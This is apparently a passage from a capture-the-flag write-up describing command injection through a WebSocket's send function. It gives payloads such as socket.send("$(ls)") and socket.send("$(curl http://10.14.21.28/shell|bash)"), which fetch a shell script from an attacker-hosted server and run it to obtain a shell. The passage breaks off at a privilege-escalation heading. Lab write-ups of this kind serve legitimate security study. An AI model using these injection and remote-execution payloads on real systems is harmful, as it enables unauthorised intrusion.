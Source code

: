 That's all we can find for the id fuzzing part, if we remember the script opens a `websocket`, we can manipulate this WebSocket to execute commands using:

```
socket.send
```

This works with `"$()"`, thanks to command injection, if we send:

```
socket.send("$(ls)")
```

We can see a `bin` on top, which goes away pretty quickly, this means that command injection is possible, so, getting a shell is possible too, in order to get a shell, we can use `busybox` or create a `index.html` file with these contents:

Now, we need to host it using a python server and use curl to get the file, once the file downloads, we need to use bash to execute it, we can do all this with the following command:

```
socket.send("$(curl http://10.14.21.28/shell|bash)")
```

> Note: Make sure to use only ports `80` and `443` because the server is only able to reach them on those ports:

## PRIVILEGE ESCALATION

***
